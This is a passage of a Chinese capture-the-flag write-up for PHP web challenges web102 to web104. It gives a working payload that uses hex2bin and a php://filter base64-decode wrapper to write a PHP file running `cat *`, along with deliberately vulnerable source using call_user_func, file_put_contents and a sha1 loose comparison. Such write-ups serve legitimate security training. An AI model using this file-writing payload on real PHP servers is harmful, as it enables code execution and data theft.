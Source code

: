 ```php
GET
v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-
decode/resource=2.php
POST
v1=hex2bin
#访问1.php后查看源代码获得flag
# 115044383959474e6864434171594473 16进制转字符 PD89YGNhdCAqYDs base64解码  <?=`cat *YDs
```

## web103~hex2bin

```php
<?php

highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    if(!preg_match("/.*p.*h.*p.*/i",$str)){
        file_put_contents($v3,$str);
    }
    else{
        die('Sorry');
    }
}
else{
    die('hacker');
}

?>

Notice: Undefined index: v1 in /var/www/html/index.php on line 14

Notice: Undefined index: v2 in /var/www/html/index.php on line 15

Notice: Undefined index: v3 in /var/www/html/index.php on line 16
hacker
```

相比上关过滤了`php` .

用上关payload也可以打通。

## web104~sha1弱相等

```php
<?php

highlight_file(__FILE__);
include("flag.php");

if(isset($_POST['v1']) && isset($_GET['v2'])){
    $v1 = $_POST['v1'];
    $v2 = $_GET['v2'];
    if(sha1($v1)==sha1($v2)){
        echo $flag;
    }
}

```